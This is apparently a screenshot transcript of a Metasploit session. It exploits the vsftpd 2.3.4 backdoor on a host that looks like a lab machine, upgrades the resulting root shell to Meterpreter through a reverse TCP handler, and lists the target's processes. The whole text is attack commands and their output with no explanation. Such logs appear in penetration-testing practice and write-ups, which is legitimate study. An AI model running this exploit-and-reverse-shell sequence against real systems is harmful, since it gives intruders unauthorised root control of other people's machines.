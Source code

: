 ```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.192.62.2:33815 -> 192.192.62.3:6200 (192.192.62.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.192.62.2:4433 
[*] Sending stage (985320 bytes) to 192.192.62.3
[*] Meterpreter session 2 opened (192.192.62.2:4433 -> 192.192.62.3:35626) at 2023-06-15 02:04:39 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
[*] Stopping exploit/multi/handler

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         shell cmd/unix                      192.192.62.2:33815 -> 192.192.62.3:6200 (192.192.62.3)
  2         meterpreter x86/linux               192.192.62.2:4433 -> 192.192.62.3:35626 (192.192.62.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

```
meterpreter > ps

Process List
============

 PID  PPID  Name    Arch    User  Path
 ---  ----  ----    ----    ----  ----
 1    0     sh      x86     root  /bin
 7    1     vsftpd  x86     root  /usr/local/sbin
 8    7     sh      x86     root  /bin
 35   8     SXuDt   x86_64  root  /tmp
```
